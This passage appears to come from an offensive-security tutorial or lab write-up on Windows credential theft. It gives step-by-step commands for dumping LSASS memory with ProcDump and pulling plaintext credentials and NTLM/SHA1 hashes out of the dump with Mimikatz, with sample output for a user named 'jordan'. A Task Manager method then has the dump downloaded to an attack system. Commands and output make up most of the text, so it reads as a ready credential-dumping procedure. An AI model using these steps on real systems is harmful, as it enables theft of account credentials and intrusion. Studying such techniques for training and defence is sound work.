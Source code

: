 #### Prerequisites
```cmd
# Elevated PowerShell/Command Prompt required
# ProcDump from SysInternals suite
```

#### LSASS Process Dump
```cmd
# Dump LSASS process memory
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Expected output:
ProcDump v10.0 - Sysinternals process dump utility
[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
```

#### Credential Extraction with Mimikatz
```cmd
mimikatz.exe

# Enable logging (recommended)
mimikatz # log
Using 'mimikatz.log' for logfile : OK

# Load dump file
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

# Extract credentials
mimikatz # sekurlsa::logonpasswords

# Sample output:
Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
```

### Method 2: Task Manager (GUI)

#### Manual LSASS Dump
1. **Open Task Manager** (Ctrl+Shift+Esc)
2. **Navigate** to Details tab
3. **Find lsass.exe** process
4. **Right-click** → Create dump file
5. **Download** dump file to attack system
6. **Process** with Mimikatz using same commands
